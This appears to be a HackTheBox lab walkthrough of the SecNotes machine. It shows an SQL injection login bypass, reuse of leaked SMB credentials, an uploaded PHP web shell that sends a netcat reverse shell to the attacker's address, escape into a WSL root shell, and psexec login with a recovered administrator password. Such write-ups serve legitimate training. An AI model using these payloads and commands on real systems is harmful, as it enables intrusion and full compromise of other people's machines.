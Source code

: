 ```yaml
---
description: https://app.hackthebox.com/machines/151
---
```


# 🎶 SecNotes

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the nmap scan, we see the web server is a login page:&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I try and create an account and log in->

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get access to a dashboard and a possible username

let's try unlogging and abuse this web app with SQLis

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

when we connect with the credentials it fills in an error, good news

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We try with some more SQLi patterns and end up having database infos leaked within the dashboard :

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>'OR 1 OR'</p></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find what seems to be credentials for an SMB share?

Other than the manual exploitation we could use psexec:

```
psexec.py tyler:'92g!mA8BGjOirkL%OG*&'@10.129.227.170
```

It did not work :

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So let's go manually with passwd **92g!mA8BGjOirkL%OG\*&**

```
smbclient \\\\10.129.227.170\\new-site -U tyler
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

now create a file called 'shell.php'

```
<?php system('nc.exe -e cmd.exe 10.10.14.94 9898') ?>
```

and then copy on your root directory netcat:

```
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe nc.exe
```

and on the smb share of tyler:

```
put shell.php
put nc.exe
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using the `put` command to upload a reverse shell and your netcat executable to an SMB share on the target system, you're creating a foothold on the target system. Even if your initial access is lost, you can regain access through the uploaded tools and i'll be able to call netcat and so trigger my reverse shell to obtain a shell ->

So now i need to trigger my shell.php file, after some looking around i found where were stored the files:

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i simply request: [http://10.129.163.46:8808/shell.php](http://10.129.163.46:8808/shell.php)

and get a shell:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and go and grab the flag:

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

For the elevation let's dive into subsystems:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl" %}

first we saw that we needed to locate bash.exe, you can use a recursive search this way:

```
where /R c:\windows bash.exe
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

same for wsl.exe:

```
where /R c:\windows wsl.exe
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

quick explanation on why we're doing this:

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after trying to get a bash shell by triggering bash.exe, we get some useful infos:

<figure><img src="../../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are root but on a linux machine of secnotes, so not really what we are looking for

we are in a non tty, let's try to escape

for reminder, a non tty refers to a type of device or terminal that does not have interactive capabilities like a traditional teletypewriter or terminal.

Let's try to get a shell via a python import:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

* `python`: This invokes the Python interpreter.
* `-c`: This option allows you to pass a command directly to Python for execution.
* `"import pty; pty.spawn('/bin/bash')"`: This is the Python code that gets executed.
  * `import pty`: This imports the `pty` module, which provides functions for controlling pseudo-terminals.
  * `pty.spawn('/bin/bash')`: This line spawns a new interactive shell (`/bin/bash`). When this line is executed, it effectively starts a new shell session within the current terminal session. The `pty.spawn()` function creates a new pseudo-terminal and executes the specified command (`/bin/bash`) within it. This results in a fully interactive shell prompt, allowing the user to execute commands and interact with the system as if they were using a normal terminal.

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

{% embed url="https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell" %}

now let's look what we have in the root folder:&#x20;

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking through stuff we encounter:&#x20;

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

that's a quick and easy win, let's try some other stuff

Impacket Toolkit - [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

first, let's install impacket

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.163.46
```

* `psexec.py`: This likely refers to a Python script named `psexec.py`. This script is likely designed to replicate the functionality of the original `PsExec` tool developed by Sysinternals, which allows for the execution of commands on remote Windows systems.
* `administrator:'u6!4ZwgwOM#^OBf#Nwnh'`: This part of the command specifies the username and password to authenticate to the target system. In this case, the username is `administrator` and the password appears to be `'u6!4ZwgwOM#^OBf#Nwnh'`. The password is enclosed in single quotes to ensure that special characters within it are properly interpreted.
* `@10.129.163.46`: This specifies the IP address or hostname of the target Windows system. The `psexec.py` script will attempt to connect to this system using the provided credentials and execute commands remotely.

<figure><img src="../../.gitbook/assets/image (25) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just go and fetch the file

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If A/V is blocking psexec, you can use smbexec or winexe

<figure><img src="../../.gitbook/assets/image (614).png" alt=""><figcaption></figcaption></figure>
